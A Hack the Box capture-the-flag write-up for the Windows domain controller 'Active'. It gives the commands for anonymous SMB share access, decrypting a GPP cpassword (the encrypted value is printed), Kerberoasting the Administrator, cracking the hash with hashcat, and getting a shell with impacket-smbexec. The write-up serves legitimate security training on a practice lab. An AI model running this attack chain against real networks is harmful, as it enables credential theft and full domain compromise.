

# Active
**Date:**  January 13th 2024

**Author:** j.info

**Link:** [**Active**](https://app.hackthebox.com/machines/148) on Hack the Box

**Hack the Box Difficulty Rating:** Easy

<br>


<br>

## Objectives
- User flag
- Root flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sC -sV -p- -oN nmap --min-rate=4500 active.htb`

```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-13 20:30:23Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49169/tcp open  msrpc         Microsoft Windows RPC
49173/tcp open  msrpc         Microsoft Windows RPC
49174/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-01-13T20:31:21
|_  start_date: 2024-01-13T20:26:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
```

<br>

## SMB Digging

The first thing I take a look at is SMB since there are no web ports open. I use smbmap and it viewing shares with a null session is successful.

`smbmap -H active.htb`


Connecting over to the Replication share and downloading the files gives us several to look at.

`smbclient -N //active.htb/Replication/`


Using `tree` to clean up the view of files.


I recursively grep for the term password in all files that were downloaded and find that in the Groups.xml file we have an old cpassword hash for the active.htb\SVC_TGS user.

`grep -r "password" .`


The cpassword hashes are very old hashes that were used with group policy in versions of Windows before 2012. They are also instantly reverseable with a build in tool called gpp-decrypt.

`gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"`


That gives us credentials for the SVC_TGS user. Let's see where we can use those.

Using crackmapexec shows that we have read access to additional shares now.


Looking through the NETLOGON share shows that it's empty. The SYSVOL share is a copy of the Replicaiton share and has the same files in it. And the Users share appears to be the c:/users folder on the machine since you can go to the SVC_TGS desktop and find the user.txt flag.

I also ran crackmapexec to find a list of users on the system.

`crackmapexec smb active.htb -u 'SVC_TGS' -p '<REDACTED>' --users`



I add those users to a file called users.txt and then check to see if any users are vulnerable to ASREPRoast, and none are.

`impacket-GetNPUsers active.htb/ -dc-ip active.htb -usersfile users.txt -format hashcat -outputfile asrep.hash`


Checking for users vulnerable to Kerberoasting shows that the Administrator user has a SPN set and is vulnerable, and we're able to capture their hash.


Checking the hashcat mode shows us it's mode 13100 for cracking.


The password cracks quickly using hashcat.

`hashcat -m 13100 kerb.hash ~/rockyou.txt`


<br>

## System Access

Now that we have credentials for the Administrator account I look at what ports are available that allow remote access and don't see anything that jumps out other than WinRM which doesn't work when I try.

I give impacket-smbexec a try and it works for me.

`impacket-smbexec active.htb/Administrator@active.htb`


You can find the user.txt and root.txt flags at the following locations.


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Using **smbmap** to find an open share on SMB that allows null sessions
- Downloading all files from the SMB share and finding **Groups.xml** which has a usernamd and password hash in it
- Using the **gpp-decrypt** tool on the cpassword hash to recover the password of the SVC_TGS account
- Using **crackmapexec** to find a list of users on the system
- Finding that the Administrator account is vulnerable to **kerberoasting** using **impacket-GetUserSPNs**
- Cracking the Administrator password with **hashcat**
- Using **impacket-smbexec** to obtain a shell on the system as Administrator

<br>

Many thanks to:
- [**eks**](https://app.hackthebox.com/users/302) and [**mrb3n**](https://app.hackthebox.com/users/2984) for creating this CTF
- **Hack the Box** for hosting this CTF

<br>

You can visit them at: [**https://www.hackthebox.com**](https://www.hackthebox.com)